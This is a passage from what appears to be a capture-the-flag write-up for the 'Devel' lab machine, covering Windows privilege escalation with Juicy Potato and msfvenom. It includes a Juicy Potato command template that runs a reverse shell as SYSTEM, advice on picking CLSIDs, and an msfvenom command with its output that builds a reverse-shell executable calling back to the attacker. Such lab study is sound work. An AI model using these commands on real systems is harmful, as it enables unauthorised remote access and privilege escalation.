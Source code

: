 ```
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
And a template to follow to use it:
```
Juicy.Potato.x86.exe -t * -p [Program] -l [NC listener port] -c [CLSID]
```
Typically, or well atleast in the case of Devel, you would want to set the program to be a reverse shell. And as for CLSID, well these are specific ids. Think of them as a SSN for processes. Pretty much we should select a CLSID that would impersonate something that would run as system to get system level priviliges. This can change depending on the OS of what we are using so we need to inventory that.
Sample output from Devel:
```
systeminfo                                                             
Host Name:                 DEVEL                           
OS Name:                   Microsoft Windows 7 Enterprise                     
OS Version:                6.1.7600 N/A Build 7600
```
So in the case we need a CLSID for a Windows 7 machine. 
Heres a list of CLSID for Windows 7: 
https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/

All it takes is a quick google search for these CLSIDs.

### Msfvenom
Its late that I'm finally using this tool but better late than ever. So far from what I've seen, its a really powerful tool to make payloads. Heres the bible: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
This sheet has many reverse shell payloads for many different OS. In the case for Devel, we needed x86 payloads. Here is the code snippet for what I ran on Devel when I called Juicy Potato.
```
┌──(root㉿kali)-[/home/kali/Documents/Devel]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > lmao.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
